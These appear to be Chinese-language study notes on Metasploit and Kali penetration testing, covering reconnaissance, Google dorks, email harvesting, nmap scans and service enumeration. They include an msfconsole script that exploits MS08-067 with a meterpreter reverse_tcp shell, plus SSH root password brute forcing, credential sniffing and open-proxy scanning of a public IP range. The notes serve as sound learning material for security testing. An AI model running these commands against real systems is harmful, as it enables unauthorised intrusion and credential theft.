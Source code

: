 # kali msf 初学
参考书《metasploit渗透测试魔鬼训练营》
## 启动
1. msfgui 已经废弃了，用armitage代替;
2. msfcli 已经废弃了，使用msfconsole -x 代替;也可以吧在msfconsole中分步写成脚本形式，然后msfconsole -r [脚本文件名];脚本例子
```shell
use exploit/windows/smb/ms08_067_netapi
set RHOST [IP]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
run
```
3. msfconsole 命令行版本
## 常用命令
### 帮助
* help [COMMAND] 
* search 搜索指令
### 常用流程
1. use 某某模块
2. show payloads 
3. set 指定payload 
4. show options 
5. set option值 
6. exploit 攻击

## 渗透测试常用流程
### A. 外围信息搜集
#### 一、通过DNS和IP地址挖掘目标网络信息
1. 也就是公开信息扫描,通常使用whois,nslookup,dig
```
msf> whois testfire.net
//---------------
# nslookup
>set type=A
>testfire.net
//--------------
#dig @ns.waston.ibm.com testfire.net
```
2. IP2Location 地理位置查询
GeoIP或cz88
3. netcraft网站提供的信息查询服务
4. IP2Domain 反查域名
（可以用旁注）
#### 二、通过搜索引擎进行信息搜集
1. google hacking技术
（有GHDB、SiteDigger、Search Diggity）
2. 探索网站的目录结构
（可以发现后台管理目录、源码备份文件、配置文件、数据库SQL文件等）
```
parent directory site:testfire.net
```
还可以使用metasploit中的brute_dirs、dir_listing、dir_scanner等辅助模块暴力猜解后台
```
msf> use auxiliary/scanner/http/dir_scanner
> set THREADS 50
> SET RHOST www.testfire.net
> exploit
```
另外，有些网站下面的robots.txt会泄露些有用的目录信息

3. 检索特定类型文件
（某些缺乏安全意思的管理员为了方便会将类似通讯录、订单等敏感内容的文件链接放到网上）
```
site:testfire.net filetype:xls
```
4. 搜索网站中的E-mail地址
（用于社会工程学）
```
msf> use auxiliary/gather/search_email_collector
>set DOMAIN altoromutual.com
>run
```
5. 搜索易存在SQL注入点的页面
（比如登陆页面）
```
site:testfire.net inurl:login
```
### B. 主机探测与端口扫描
1. 活跃主机扫描
* ICMP Ping命令
* metasploit 的主机发现模块
(常用arp_sweep、udp_sweep，其他的用search discovery来查找)
```
msf> use auxiliary/scanner/discovery/arp_sweep
>set RHOSTS 10.10.10.0/24
>set THREADS 50
>run
```
注：arp扫描只适合同一个网段的
* nmap
```
#nmap -sn 10.10.10.0/24
//如果internet上过滤了ping，可以使用-PU对开放的UDP端口进行探测
#nmap -sn -PU 10.10.10.0/24
```
2. 操作系统识别
```
#nmap -O 10.10.10.101
```
注 ：-A可以获取更详细的信息

3. 端口扫描与服务类型探测
（端口扫描常用技术：TCP Connect、TCP SYN、TCP ACK、TCP FIN等，一般推荐用SYN，最快且相对隐蔽）
* metasploit
```
// search portscan
msf> use auxiliary/scanner/portscan/syn
>set THREADS 20
>run
```
* nmap 
```
//-sS表示使用TCP SYN扫描，-Pn表示扫描之前不使用ICMP echo探测目标
nmap -sS -Pn 10.10.10.101
//扫描开放端口服务的详细版本号
nmap -sV -Pn 10.10.10.101
```
4. 讲扫描结果进行分析，得到分析结果

### C. 服务扫描与查点
确定开放的端口后，通常会对相应端口上所运行服务的信息进行更深入的挖掘，通常称为服务查点。
1. 常见的网络服务扫描
* telnet服务
```
msf> use auxiliary/scanner/telnet/telnet_version
>set RHOSTS 10.10.10.0/24
>set THREADS 100
>run
```
* ssh服务
```
msf> use auxiliary/scanner/ssh/ssh_version
>set RHOSTS 10.10.10.0/24
>set THREADS 100
>run
```
* oracle数据库服务
```
msf> use auxiliary/scanner/oracle/tnslsnr_version
>set RHOSTS 10.10.10.0/24
>set THREADS 50
>run
```

* 开放代理探测与利用
```
msf> use auxiliary/scanner/http/open_proxy
>set SITE www.google.com
>set RHOSTS 24.25.24.1-24.25.26.254
>set MULTIPORTS true
>set VERIFY_CONNECT true
>set THREADS 100
>run
```
2. 口令猜测与嗅探
* SSH服务口令猜测
```
msf> use auxiliary/scanner/ssh/ssh_login
>set RHOSTS 10.10.10.254
>set USERNAME root
>set PASS_FILE /root/words.txt
>set THREADS 50
>run
```
* psnuffle 口令嗅探
```
msf>use auxiliary/sniffer/psnuffle
>run
```
注：同一个网络嗅探

### D、网络漏洞扫描
1. 漏洞扫描原理与漏洞扫描器
（黑盒扫描、白盒扫描）
2. OpenVAS漏洞扫描器
（nessus的开源版本）
（TODO）
（在metasploit内部使用OpenVAS）
（TODO）
3. 查找特定服务漏洞

使用nmap
```
//使用nmap查找MS08-067漏洞
msf>nmap -P0 --script==smb-check-vulns 10.10.10.130
```
4. 漏洞结果分析
（将得到的信息整理为表格）

### E、渗透测试信息数据库与共享
(TODO)

